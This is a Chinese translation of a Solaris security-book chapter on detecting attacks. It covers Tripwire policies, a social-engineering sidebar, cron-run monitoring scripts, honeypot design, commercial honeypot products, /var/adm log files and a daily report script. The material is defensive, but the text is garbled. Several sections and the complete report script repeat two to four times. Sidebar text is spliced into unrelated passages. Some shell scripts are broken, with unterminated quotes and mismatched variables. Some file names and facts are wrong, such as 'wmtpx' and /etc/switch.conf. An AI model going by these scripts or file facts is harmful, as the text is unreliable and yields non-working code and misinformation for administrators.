如你所见，列出的所有文件都已设置为 `SEC_CRIT`，这些是不可更改的**关键文件**。如果其中一个文件被修改，将被视为 `SIG_HI` 级别。使用我们之前设置的邮件接收人部分，邮件将发送给 root 用户并触发叫机。

对于 Tripwire 有许多变量和配置选项可用。请确保仔细阅读文档。Tripwire 还提供了一个工具来帮助构建您自己的策略文件，可以在 http://policy.tripwire.com 找到。

## 来自底层的笔记...

## 社会工程学

进入一个地方最有效的方法之一是通过正门。任何组织中知识丰富的人之一是接电话的人。根据你的组织，这个人可能是接待员、信息中心员工或客户服务代表。这些人是守门人，负责转接电话和回答问题。他们可以访问公司电话列表和流程，通常拥有网络连接，在大多数情况下，他们是早上最早、晚上最晚离开的人。尽管数据很重要，但很少接受计算机安全培训。如果他们接受了培训，通常也不会高于网络用户收到的平均水平。黑客知道这一点，并经常尝试欺骗你的守门人提供他们访问你网络所需的价值信息。这种收集信息的方法被称为社会工程学，通常发生在黑客攻击之前。

花时间研究你所在领域的漏洞是非常重要的。花时间向你的守门人自我介绍。了解他们拥有哪些访问权限以及接受过哪些计算机安全培训。询问这些人是否接到过异常电话或访客。猜猜黑客会打什么样的电话。他们可能会假装忘记远程访问号码或帮助台经理的名字。出于某种原因，他们经常阻止拨打复印机公司的维修或销售部门。

在跨越部门边界之前，确保你通过正确的渠道，但要认真考虑探索组织的这一区域。在付出巨大努力使系统安全之后，请确保你没有把大门敞开！


一旦你更新了文本文件，你需要将其转换为 `twstall` `tw.pol` 文件。对于开源版本，这意味着再次运行 `twinstall.sh` 脚本。对于商业版 Tripwire for Servers，你可以在 Tripwire for Managers 应用程序中更新策略文件。文件配置完成后，选择“分发文件”，然后选择“覆盖现有策略文件”，新创建的文件将发送到选机器。

## 使用 Shell 脚本提醒系统管理员

免费、开源或商业安全软件的选择广泛但处于滞后。无论你的需求是什么，你都能找到可以完成工作的应用程序或12。但你需要寻找这样的应用程序吗？本节讨论了某些脚本示例，它们将监控异常活动并在发生此类活动时提醒你。

我们将自定义的脚本命名为 `monitor.sh`。它将包含我们想要通过 `cron` 定期运行的命令，以确保所有操作都正常。

# 第 11 章 · 检测与拒绝攻击

```
}
```

通过本节，我们可以判断系统何时正在经历异常高水平的活动。即使我们没有被黑客攻击，当事情需要我们关注时，系统本身也是一个强有力的指标。

# 整合所有内容

现在我们已经有了想要监控的部分，让我们把它们整合到一个脚本中，并使用 `cron` 定期运行该脚本。以下是完整脚本 `monitor.sh` 的样貌：

```bash
#!/usr/bin/sh

# 此脚本将监控异常活动，并在需要操作时
# 发送警告和警报。

HOSTNAME=`hostname`
WARNING_PROCESSES=178
DANGER_PROCESSES=185
WARNING_CPU=2
DANGER_CPU=3
```

# 此部分将监控进程数量的数量。


```bash
monitor_processes()
{
  CURRENT_PROCESSES=`ps -e | wc -l`
  if [ "$CURRENT_PROCESSES" -ge "$WARNING_PROCESSES" ];
  then
    echo "Warning - ${HOSTNAME} Process number is \
      ${CURRENT_PROCESSES}" | mailx -s \
      "Warning!" warn_root
    if [ "$CURRENT_PROCESSES" -ge "$DANGER_PROCESSES" ];
    then
      echo "ALERT!!! - ${HOSTNAME} Processes at DANGER LEVEL \"
```

```bash
of ${CURRENT_PROCESSES} | mailx -s "ALERT!" page_root
```

```bash
fi
}
```

# 此部分将监控异常的 CPU 活动。

```bash
monitor_cpu_activity()
{
  for i in `uptime`
  do
    ACT=$i
  done
  CPU_ACT=$(echo "$i" | awk -F. '{print $1}')
  if [ "$CPU_ACT" -ge "$WARNING_CPU" ];
  then
    echo "Warning - ${HOSTNAME} CPU ACTIVITY is ${WARNING_CPU}" | mailx -s \ \
      "Warning!" warn_root
    if [ "$CPU_ACT" -ge "$DANGER_CPU" ];
    then
      echo "ALERT - ${HOSTNAME} CPU ACTIVITY is ${DANGER_CPU}" | mailx -s \
      "ALERT!" page_root
    fi
  fi
fi
}
```

现在我们已经有了监控脚本，请确保它具有正确的执行权限，并使用 `crontab` 命令设置 cron 每 15 分钟运行一次该脚本。


# 检测到攻击后该做什么

现在你已经检测到了攻击，你该怎么办？大多数专家会建议你断开所有网络电缆，确保无人能通过物理方式访问系统。然后备份你所有的数据，清空磁盘，并重新安装整个 maris。

然而，什么能阻止黑客再次回来呢？黑客就像野餐时的蚂蚁：一旦他们进入了，就很难除掉！请记住，黑客的大部分时间花在寻找可以攻击的系统。一旦他们找到了可能的目标，他们就不可能放弃并转而攻击别人。因此，我们需要通过详细检查他们的攻击，尽可能地识别出黑客所利用的弱点。此外，我们还希望识别出黑客。使用蜜罐系统（honeypot）是剖析并可能识别攻击者的一种方法。

# 什么是蜜罐？

蜜罐简单来说就是一个旨在引诱并在其工作中捕获黑客的系统。其设计上有许多变体，甚至有一些优秀的商业产品。在本节中，我们将讨论如何使用 Solaris 系统作为蜜罐。

蜜罐简单来说就是一个旨在引诱并在其工作中捕获黑客的系统。其设计上有许多变体，甚至有一些优秀的商业产品。在本节中，我们将讨论如何使用 Solaris 系统作为蜜罐。

# 检测到攻击后该做什么

现在你已经检测到了攻击，你该怎么办？大多数专家会建议你断开所有网络电缆，确保无人能通过物理方式访问系统。然后备份你所有的数据，清空磁盘，并重新安装整个 maris。

然而，什么能阻止黑客再次回来呢？黑客就像野餐时的蚂蚁：一旦他们进入了，就很难除掉！

记住，黑客就像野餐时的蚂蚁：一旦他们进入了，就很难除掉！请记住，黑客的大部分时间花在寻找可以攻击的系统。一旦他们找到了可能的目标，他们就不可能放弃并转而攻击别人。因此，我们需要通过详细检查他们的攻击，尽可能地识别出黑客所利用的弱点。此外，我们还希望识别出黑客。使用蜜罐系统（honeypot）是剖析并可能识别攻击者的一种方法。

# 什么是蜜罐？

蜜罐简单来说就是一个旨在引诱并在其工作中捕获黑客的系统。其设计上有许多变体，甚至有一些优秀的商业产品。在本节中，我们将讨论如何使用 Solaris 系统作为蜜罐。

蜜罐简单来说就是一个旨在引诱并在其工作中捕获黑客的系统。其设计上有许多变体，甚至有一些优秀的商业产品。在本节中，我们将讨论如何使用 Solaris 系统作为蜜罐。

# 如何构建蜜罐

首先，我们想要吸引注意力。这涉及到两个决定：蜜罐将放置在哪里，以及我们该如何命名它？由于我们希望它被攻击，我们希望将蜜罐尽可能远离生产系统。通过将蜜罐放置在 DMZ 中，我们可以保护网络。DMZ 的名称源于军事化区，是一个允许军事行动发生的区域。正如图 11.3 所示。

# 图 11.3 双防火墙 DMZ



在 IT 世界中，DMZ 有时被称为筛选子网（screened subnet），指的是一个免受不可信源保护的隔离区域。将蜜罐放置在 DMZ 中，我们可以监控任何活动。

另一种放置蜜罐的方法是将其放在生产系统旁边。我们希望它看起来像是你的系统中的之一。例如，假设我们的蜜罐是 172.x.x.10。如果我们给蜜罐命名为 172.x.x.9，它将显示为一台机器。我们需要确保防火墙配置为允许蜜罐访问网络上的其他系统。

# 第 11 章 · 检测与拒绝攻击

接下来是决定如何命名蜜罐。记住，我们希望它被攻击，所以我们希望它有一个能吸引人的名字。不要太明显，像 `top-secret-valuable-data-with-security-1` 这样的名字对大多数新手来说听起来就像陷阱。相反，遵循其他系统的命名规范，给蜜罐起一个听起来很系统的名字。例如，`traveler-backup1` 这样的名字会让人觉得它是网络的备份服务器并包含宝贵数据。`traveler-db5-old` 这样的名字会让人觉得它是一个很少使用的系统，可能要被淘汰或未被监控。另一种常用的做法是将蜜罐命名为开发或测试系统。命名为 `traveler-devtest1` 肯定能吸引即使是最谨慎的人。黑客知道，系统管理员对开发或测试系统的监控通常比生产系统要松散。

接下来我们构建蜜罐。这涉及到重新安装 Solaris。不要太担心修补它，毕竟我们并不想把黑客隔绝在系统之外。我们希望他们进入，以便我们监控他们的活动。一旦安装了 Solaris 运行环境，我们就需要根据我们的目的进行配置。我们的假设是，进入蜜罐系统的所有流量都是不可信的。除了授权的系统管理员和安全人员外，该系统的唯一流量将来自黑客。我们需要确保防火墙配置为允许从外部进入进入我们的蜜罐，并限制允许的流量。

# 检测与拒绝黑客攻击 第 11 章

通过我们的蜜罐获取其他任何内容的访问。此外，如果你的防火墙具有发送警报的能力，请确保在有人扫描或探测你的网络时配置其发送警报。在这种设置中，你的防火墙是你的第一道防线。务必仔细并定期检查你的防火墙日志。

现在我们来配置蜜罐，以便我们跟踪黑客正在做什么、尝试做什么或已经做了什么。为了实现这一点，我们需要几个不同的信息源。这样做是为了增加黑客检测系统真实目的的难度，并在某个信息源被黑客篡改时为我们提供多个信息资源。

黑客尝试尝试的事情之一就是破坏我们的系统日志。为此，我们不能信任蜜罐系统日志中所包含的数据。一种解决方案是使用 `syslog` 将消息发送到另一个服务器。它具有一些远程审计功能以及加密日志流量的能力。编译并重新连接 `syslog` 使用另一个配置文件，例如 `/usr/share/man/man1/manconf`。确保将 `/etc/syslog.conf` 留在原地。这希望能够欺骗黑客，让他们认为所有的日志记录都在本地完成。

我们希望在蜜罐系统上的下一个工具是 Tripwire。在节一节中，我们讨论了它的配置。无论你是在 Solaris 蜜罐上使用商业版本还是开源版本，请务必使用这个无价的工具。

最后，确保你在防火墙上使用了嗅探器。书中讨论了几个出色的嗅探器应用程序。使用你选择的嗅探器监控所有发往蜜罐的、尤其是从蜜罐发出的包。你的嗅探器可以捕获黑客发送和接收的所有数据。这些是以后研究攻击时使用的重要数据。

这段讨论应该让你对如何在 Solaris 服务器上设置蜜罐有一个大致的了解。然而，有很多方法可以实现它；请对不同的配置进行实验。最重要的是，记住你蜜罐的目的！你想让黑客保持足够的兴趣以便留下来，但不允许他们访问任何受保护的系统。如果你足够幸运，蜜罐将成为你极佳的学习工具，同时也是黑客的强大屏障。

# 用于 Solaris 的商业蜜罐

市面上提供一些优秀的商业蜜罐应用程序。这里我们提到了其中几个，但这绝不是一个完整的列表，列出的软件没有特定的顺序。商业蜜罐与自制蜜罐相比具有一些优势。


优势取决于具体的应用程序，但如果你不擅长完全自制的蜜罐，并希望获得经过测试的应用程序的优势，你将想要研究现成产品。


# NetFacade

GTE Technology（现归 Verizon 所有）制作了这款方便的应用。NetFacade 的独特之处在于它可以模拟多达 255 个系统的网络，并仿真运行 Windows NT、Irix、Linux 甚至 Cisco IOS 的系统的服务。安装过程将自动为你虚拟网络上的系统命名以及每个系统运行的服务。它还具有方便的功能，允许你选择运行不同版本的服务。例如，你可以选择运行旧版本的 SSH，以给系统系统未更新的印象。NetFacade 以及其他商业蜜罐在模拟多个系统时有一个需要注意的缺点。虽然软件运行在多个系统中，但所有流量都将源自一个 MAC 地址。如果你面对的是老练的黑客，这将是一个巨大的线索，暴露你设置了陷阱！

随着 Verizon 将 GTE 的产品和服务转移到其名下，可能很难找到 NetFacade 的信息。检查 `www.gte.com` 或联系 Verizon 以获取更多关于该应用程序的信息。

# Specter

NetSec 发布了一个非常受欢迎的商业蜜罐系统，名为 Specter。虽然它目前运行在 Windows NT 和 2000 上，但它可以模拟各种操作系统，包括 Solaris、AIX、Linux 和 Tru64。此外，NetSec 正在开发一个 UNIX 系统，并希望在不久的将来发布。该产品具有合理的硬件要求，由于它运行在 Intel 系统上，你不需要牺牲你那台备受珍视的 Sun ULTRA 工作站。如图 11.4 所示，Specter 提供了广泛的功能。

Specter 不仅能非常有效地伪造其他操作系统，还可以模拟安全性薄弱或无安全甚至硬件故障的系统行为。你可以从 `www.specter.com` 了解更多信息。

# ManTrap

Recourse Technologies 提供了一个非常强大的工具 ManTrap。它并不仿真另一个操作系统的服务和存在；而是在锁定的虚拟笼中运行完整版本的操作系统。你还可以配置多个笼子，以给出系统网络的印象。一台 Sun ULTRA 5 可以被配置成像一组 FTP、Web 和 Sendmail 服务器。由于你为每个“笼子”运行完整的 Solaris 操作系统，你需要为每个准备必要的磁盘空间和内存，但 ManTrap 是诱导黑客转向另一个方向的绝佳工具。

## 图 11.4 Specter 控制窗口



# 损害与防御

# 欢迎加入

本章的信息涵盖了你的系统被入侵后可以采取的行动。如果你足够，你将在损害发生前阻止黑客，并从你的监控工具中学到足够的知识，以关闭他们钻入的漏洞。如果你真的幸运，你还能捕获足够的信息，将攻击者追溯到黑客本人。

如何处理信息通常不由你决定。确保你了解你公司在这方面的政策。许多公司选择不起诉黑客，担心他们的客户会对他们的产品或能力失去信心。由于大多数恶意攻击是内部人员为，公司通常选择在内部处理问题。你会被要求修复安全问题使其不再发生，到此为止了。这种做法确实有其优点，但并不是人都认同它。

有些公司决定将收集到的信息交给当地执法部门，试图捕获并起诉黑客。这可能是对时间和金的巨大浪费。即使你的信息准确，你还需要执法部门以及任何其他相关公司（例如服务被使用的 ISP）的大力配合。除非你能证明遭受了广泛的损害和严重的收入损失，否则不要期望 911 级别的待遇。

最重要的是，抵制做独行侠的冲动。亲自动用某种手段对黑客进行复仇听起来很诱人，但你必须克制！从脚本小子到硬核破解者，所有级别的黑客都能找到方法让责任看起来像是别人的。因此，除了违反公司规定，还可能给无辜的同事带来同样的麻烦！不要为了满足复仇心理而赌上声誉、工作和未来。分析攻击，从中学习并修补漏洞。多去健身一小时或多吃一块蛋糕——任何能让你感觉好受的方法。

你被黑了。欢迎加入俱乐部。

ManTrap 的优势之一是它的报告功能。它记录击键以及进程调用和文件访问。日志可以存储在本地，但明智的是利用远程日志功能将文件存储在另一个系统上。它还使用 Java 加密技术对日志进行签名。这让你知道黑客没有篡改过你的日志。

Recourse 提供名为 ManHunt 的产品。它不仅能检测并警告你网络上的可疑活动，还能将攻击追踪到源头。在源头被反射、欺骗或分布式隐藏的情况下，ManHunt 仍然非常有效。它还运行在 SPARC 平台上，与 ManTrap 使用时构成了一个强大的安全包。

更多关于 ManTrap 和 ManHunt 的信息可以访问 Recourse 网站 `www.recourse.com`。

# Solaris 日志文件

维护 Solaris 系统的代价是经常检查日志文件。在本节中，我们将查看应该检查哪些文件。我们还看了自动化这一有时枯燥过程的方法。然而，不要仅仅依赖监控应用程序或自定义脚本来处理此任务。

## 检测与拒绝黑客攻击 • 第11 章

尽管自动化流程具有优势，但你仍应该将定期手动检查这些日志作为你安全计划的一部分。

## 需要检查的 Solaris 日志文件

让我们来看一些你应该检查的文件。我们在这里关注的文件可以在 `/var/adm` 中找到。显然，如果你有自定义脚本将数据转储到你的日志文件中，或者有创建自己日志文件的应用程序，你也将将需要关注它们。本讨论涵盖了你的 Solaris 8 系统上某些系统日志的重要性。

### 你们以前不是叫 utmp 吗？

名为 `/var/adm/utmp` 和 `/var/adm/wtmp` 的文件已经被 `/var/adm/utmpx` 和 `/var/adm/wmtpx` 替换。新文件 `utmpx` 和 `wmtpx` 的功能与它们的前任完全相同。`utmp` 文件包含用户访问和管理信息的数据库；`wmtpx` 包含用户访问和管理信息的历史记录。如果你在 `/var/adm` 目录下看到名为 `utmp` 或 `wtmp` 的文件，请立即找出是哪个程序在使用它们，或者哪个应用程序创建了它们。这通常是系统上运行着未经授权的程序并试图收集你用户账户数据的迹象。

默认情况下，`/var/adm/utmp` 属于 `root` 用户并具有读写权限。`bin` 组和世界用户被只读权限。`/var/adm/utmpx` 文件属于系统账户 `adm` 和 `adm` 组，具有相同的权限。

### /var/adm/messages 文件

`/etc/syslog.conf` 文件告诉 syslog 守护进程存储系统消息的路径：

```
chevron7:root # more /etc/syslog.conf
#ident "@@@@" syslog.conf       1.5       98/12/14 SMI*      /* SunOS 5.0 */
#
# Copyright (c) 1991-1998 by Sun Microsystems, Inc.
# All rights reserved.
#
# syslog configuration file.
#
# 此文件由 m4 处理，因此请务必对与 m4保留字相同的名称加引号
```


以匹配 m4 保留字。此外，在 ifdef 块中，包含逗号的参数必须加引号。

```
*.err.kern.notice;auth.notice /dev/sysmsg
```

```
*.err;kern.debug;daemon.notice;mail.crit /var/adm/messages
```

```
*.alert;kern.err;daemon.err operator
```

```
*.alert root
```

```
*.emerg \*
```

# 如果非日志主机型机器选择将认证消息发送到日志主机，请取消取消行的行的注释：

```
#auth.notice ifdef(`LOGHOST`, /var/log/authlog, @loghost)
```

```
mail.debug ifdef(`LOGHOST`, /var/log/syslog, @loghost)
```

#

# 非日志主机型机器将使用以下行使“用户”日志消息记录在本地。

#

```
ifdef(`LOGHOST`, ,
```

```
user.err /dev/sysmsg
```

```
user.err /var/adm/messages
```

```
user.alert root, operator'
```

```
user.emerg *
```

```
)
```

如你所示，系统错误的默认位置是 `/var/adm/messages`。此文件包含启动期间的系统启动消息以及系统运行期间任何系统错误。确保你留意任何异常条目或可能的问题。通常，最后几行会有如下条目：

```
Aug 19 17:17 chevron2 fdc: [ID 114370 kern.info] fd0 at fdc
```

```
Aug 19 17:17 chevron2 genunix: [ID 936769 kern.info] fd0 is
```


```
/isa/fdc1,3f0/fd0,0
Aug 19 17:17 chmod2 isa: [ID 202937 kern.info] ISAdevice: asyo0
Aug 19 17:19 chmod2 genuix: [ID 37669 kern.info] asyo0 is
/isa/asy1,3f8
Aug 19 17:22 chmod2 pseudo: [ID 129642 kern.info] pseudo-device: xvc0
Aug 19 17:22 chmod2 genuix: [ID 37669 kern.info] xsvc0
/pseudo/xsvc0
Aug 19 17:24 chmod2 i8042: [ID 526150 kern.info] 8042 device: mouse#1,mouse
0
Aug 19 17:24 chmod2 genuix: [ID 37669 kern.info] mouse8042 is
/isa/i8042,1,60/mouse@1
Aug 19 17:25 chmod2 pseudo: [ID 129642 kern.info] pseudo-device: pm0
Aug 19 17:25 chmod2 genuix: [ID 37669 kern.info] pm0 is
/pseudo/pm0
```

默认情况下，`/var/adm/messages` 属于 `root`，组具有读写权限，所有人具有只读权限。

## /var/adm/last 文件

此文件包含 `last` 命令使用的信息。通过 `/var/adm/wtmp` 文件，它提供了最近登录系统的用户信息。此文件应属于 `root` 并允许所有人读取权限。`last` 命令是安全监控的一个重要工具。我们将在创建报告的部分详细介绍其使用方法。

## /etc 文件

自然，除了日志文件外，你还应该关注 `/etc` 目录下的系统配置文件。`/etc/default/login` 文件包含重要的登录信息，例如 root 用户是否可以远程登录。监控 `/etc/passwd` 查看任何未识别账户，监控 `/etc/hosts` 查看主机名的更改。另一个重要文件是 `/etc/inet/services`，用于配置系统如何解析名称。另一个重要文件是 `/etc/switch.conf`。此外，黑客经常操控的目录是 `/etc/rc.d`。由于这些目录包含每个运行级别的启动和停止脚本，黑客经常插入代码以便在系统重启后运行未经授权的程序。此列表并不完整。你选择监控的文件取决于系统的使用方式以及你希望安全强度有多大。Tripwire 的默认设置涵盖了大部分重要的系统文件。确保你理解你的策略并知道哪些文件正在被监控。了解你的系统及其特定配置是阻止对这些文件进行未经授权更改的第一步。

许多优秀方法可以自动化检查日志文件的过程。一种流行的应用程序叫做 `swatch`。该应用程序的名字来源于“simple watcher and filter”（简单观察和过滤器）。由 Todd Addkins 用 Perl 编写，可以在 www.stanford.edu/~atkins/swatch 找到。`Swatch` 易于安装和配置，对于监控日志文件并在潜在问题非常有帮助。正如我们之前讨论的，Tripwire 是监控文件和目录的一种流行且可靠的方法。另一种方法是创建自己的 shell 脚本来自定义你想要查看的信息。让我们看看如何创建一个每天早上发送系统状态报告的脚本。

## 系统状态报告

每天早上 7:00，我会从我负责的每个系统接收电子邮件。这些消息为我提供了快速的状态报告，让我了解系统的整体状况，并提供查看任何潜在系统或安全问题的机会。让我们创建一个提供系统状态报告的脚本。首先，让我们决定想看什么。就像我的当地报纸一样，我们想看头条新闻、体育比分、商业新闻以及关于当地人物和事件的文章。

### 头条

首先，我想看到所有需要我关注的近期事件。一种方法是查看 `/var/adm/messages` 文件的最后 10 行。为了做到这一点，我将对 `dmesg` 命令使用 `tail`：

```
dmesg | tail
```

脚本的第一部分如下：

```
SYS_LOG=$(dmesg | tail | awk -F: '{print $1 $2}')
UP_TIME=$(uptime) > /export/home/scripts/report
echo "Good morning, here's the news from $(uname -n)" >> /export/home/scripts/report
echo "for $(date)" >> /export/home/scripts/report
echo "\n" >> /export/home/scripts/report
echo "The last entries in the syslog are:\n$SYS_LOG" >> /export/home/scripts/report
```

此脚本将 `dmesg | tail` 命令字符串赋值给变量 `SYS_LOG`。然后创建报告。为了演示，我们在 `/export/home/scripts` 创建了脚本并命名。它首先告诉我们报告生成的地点和时间；然后显示 `/var/adm/messages` 中的最新条目。

### 体育页

下一部分提供了相当于体育比分的内容。我们想要查看当前的 CPU 负载以及系统持续运行的时间。如果 CPU 负载异常高，或者系统在在我们不知情的情况下重启了，我们将立即进行调查。

脚本如下：

```
CPU_ACT=$(uptime | awk -F: '{print $4}')
RE_BOOT=$(who -b)
```

```
echo "\n\n" >> /export/home/scripts/report
echo "The current CPU load over the last 1, 5 and 15 mins is: $CPU_ACT" >> /export/home/scripts/report
```

```
echo "The system was last rebooted":"$RE_BOOT >> /export/home/scripts/report
```

### 本地事件

此部分用于汇总使用系统的用户。我们想查看当前谁登录了系统，以及谁使用了 `su` 命令。该部分的内容如下：

```
CURRENT_USERS='who'
WHO_SU='tail /var/adm/sulog'
```

```
echo "\n*****" >> /export/home/scripts/report
echo "The users currently logged in:\n$CURRENT_USERS" | cat >>/export/home/scripts/report
echo "\n*****" >> /export/home/scripts/report
echo "The last 10 users of the su command were:\n$WHO_SU" | cat >>/export/home/scripts/report
echo "\n*****" >> /export/home/scripts/report
echo "If you were a Hacker, how would you break into this system?" >>/export/home/scripts/report
echo "\n\n" >> /export/home/scripts/report
```

通过此部分中的信息，我们寻找不处于处于状态的账户。例如，如果我们看到用户 `janeill` 在早上 7:00 登录，而我们知道该用户很少在早上 9:00 之前出现，我们就有理由怀疑。要么是 `janeill` 起早了，要么她昨晚忘记注出了——要么是其他人正在使用该账户。无论什么情况下，都需要进行调查。

此外，这还能告诉我们谁在使用 `su` 命令。如果我们看到用户 `janeill` 成功切换到了 `root` 账户，而我们知道该用户不应该这样做，我们就有了麻烦。

脚本的最后一行将报告发送到 root 电子邮件地址。通过使用 Sendmail 别名，我们可以将报告发送到任何电子邮件地址：

```
cat /export/home/scripts/report | mailx -s "Daily Report from `uname -n`" root
```


# 检测与拒绝黑客攻击 • 第 11 章 353

## 开始行动！

以下是完整的脚本：


```sh
#!/bin/sh

# 这是一个为 root 用户提供每日报告的脚本 - rrc
# 头信息
SYS_LOG=`dmesg | tail`
UP_TIME=`uptime | awk -F: '{print $2}'`

echo "\n\n" > /export/home/scripts/report
echo "Good morning - Here's the news from `uname -n`" >> /export/home/scripts/report
echo for `date` >> /export/home/scripts/report
echo "\n*******\n" >> /export/home/scripts/report
echo "The last entries in the syslog are:\n \n$SYS_LOG" >> /export/home/scripts/report

# 体育
CPU_ACT=`uptime | awk -F: '{print $4}'`
RE_BOOT=`who -b`

echo "\n*******\n" >> /export/home/scripts/report
echo "The current CPU load over the last 1, 5 and 15 mins is:$CPU_ACT" >> /export/home/scripts/report
echo "The system was last rebooted:$RE_BOOT" >> /export/home/scripts/report

# 本地人员
CURRENT_USERS=`tail /var/adm/sulog`
echo "\n*******\n" >> /export/home/scripts/report
echo "The users currently logged in are:\n \n$CURRENT_USERS | cat" >> /export/home/scripts/report
echo "\n\n*******\n" >> /export/home/scripts/report
```


# 检测与拒绝黑客攻击 • 第11章

```sh
The last 10 users of the su command were:\n$WHO_SU" | cat >>/export/home/scripts/report
echo "\n\n" >> /export/home/scripts/report
echo "If you were a Hacker, how would you break into this system?" >>/export/home/scripts/report
```

通过此部分中的信息，我们寻找一个不应该处于活跃状态的账户。例如，如果我们看到用户账户 `janeill` 在早上 7:00 登录，而我们知道该用户很少在早上 9:00 之前出现，我们就有理由怀疑。要么是 `janeill` 起早了，要么她昨晚忘记注出了——要么是其他人正在使用该账户。无论什么情况下，都需要进行调查。

此外，这还能告诉我们谁在使用 `su` 命令。如果我们看到用户 `janeill` 成功切换到了 `root` 账户，而我们知道该用户不应该这样做，我们就有了麻烦。

脚本的最后一行将报告发送到 `root` 电子邮件地址。通过使用 Sendmail 别名，我们可以将报告发送到任何电子邮件地址：

```sh
cat /export/home/scripts/report | mailx -s "Daily Report from `uname -n`" root
```


# 检测与拒绝黑客攻击 • 第 11 章 353

## 开始行动！

以下是完整的脚本：

```sh
#!/bin/sh

# 这是一个为 root 用户提供每日报告的脚本 - rrc
# 头信息
SYS_LOG=`dmesg | tail`
UP_TIME=`uptime | awk -F: '{print $2}'`

echo "\n\n" > /export/home/scripts/report
echo "Good morning - Here's the news from `uname -n`" >> /export/home/scripts/report
echo for `date` >> /export/home/scripts/report
echo "\n*******\n" >> /export/home/scripts/report
echo "The last entries in the syslog are:\n \n$SYS_LOG" >> /export/home/scripts/report

# 体育
CPU_ACT=`uptime | awk -F: '{print $4}'`
RE_BOOT=`who -b`

echo "\n*******\n" >> /export/home/scripts/report
echo "The current CPU load over the last 1, 5 and 15 mins is:$CPU_ACT" >> /export/home/scripts/report
echo "The system was last rebooted:$RE_BOOT" >> /export/home/scripts/report

# 本地人员
CURRENT_USERS=`tail /var/adm/sulog`
echo "\n*******\n" >> /export/home/scripts/report
echo "The users currently logged in are:\n \n$CURRENT_USERS | cat" >> /export/home/scripts/report
echo "\n\n*******\n" >> /export/home/scripts/report
```


通过此部分中的信息，我们寻找一个不应该处于活跃状态的账户。例如，如果我们看到用户账户 `janeill` 在早上 7:00 登录，而我们知道该用户很少在早上 9:00 之前出现，我们就有理由怀疑。要么是 `janeill` 起早了，要么她昨晚忘记注出了——要么是其他人正在使用该账户。无论什么情况下，都需要进行调查。

此外，这还能告诉我们谁在使用 `su` 命令。如果我们看到用户 `janeill` 成功切换到了 `root` 账户，而我们知道该用户不应该这样做，我们就有了麻烦。

脚本的最后一行将报告发送到 `root` 电子邮件地址。通过使用 Sendmail 别名，我们可以将报告发送到任何电子邮件地址：

```sh
cat /export/home/scripts/report | mailx -s "Daily Report from `uname -n`" root
```

## 总结

预测意外是不可能的。如果你可以预测，那么根据定义，它就不再是“意外”了。无论你如何加固围墙，总有人会进入。本章描述的概念将在有人突破围墙后为你提供帮助。

在本章中，我们涵盖了检测和拒绝针对我们系统的攻击的方法。不依赖任何单一方法来保护我们的系统是重要的。

我们讨论了创建自己的工具，例如自定义脚本。许多黑客对流行的入侵检测软件非常熟悉，正如你一样。他们知道这些软件的优缺点，或者如何绕过它们。获得优势的方法之一是创建自己的安全脚本。尝试不同的使用方法来监控受保护的系统。

我们还涵盖了构建我们的蜜罐系统。自制的蜜罐是一个强大的工具。由于没有固定的设置，黑客很难对其检测和规避。在构建蜜罐时，确保你像黑客一样思考。对其进行彻底测试。在将其投入生产环境之前，我经常挑战同事测试蜜罐。

## 解决方案快速通道

### 监控黑客活动

- 使用 `Tripwire` 是监控文件和目录更改的极佳方法。虽然商业版本提供了额外功能，但开源版本是在预算有限的情况下提供安全的理想解决方案。
- `tripwire.pol` 文件是策略文件，决定了 `Tripwire` 监控哪些内容以及何时发送警报。
- 商业版本提供了 `Tripwire Manager`，你可以用它来远程监控和配置多个系统。

### 使用 Shell 脚本提醒系统管理员

- 你可以使用自定义的 Shell 脚本来提供额外的监控。


- 确保脚本位于安全目录中，并由非零账户运行。
- 使用 `crontab` 命令设置脚本按定期计划运行。

## 探测到黑客入侵后该做什么

- 蜜罐（Honeypot）是一种设计用于诱骗黑客离开你受保护的系统或网络的系统。
- 蜜罐系统应经过仔细配置，以确保在监控黑客活动的同时，不会让黑客获取其他系统的访问。
- 商业版本的蜜罐可以模拟整个网络，但请注意，所有的虚拟系统都源自同一个 MAC 地址。

## 监控 Solaris 日志文件

- `/var/adm` 下的日志对于获取近期活动信息非常有价值。



## 检测与拒绝黑客攻击 • 第 11 章

确保蜜罐系统上的 syslog 文件受到保护。其中一种方法是将其写入远程服务器。

`/etc` 目录下的配置文件需要防止来自黑客的操纵。确保 Tripwire 已配置为保护这些文件。

## 创建每日报告

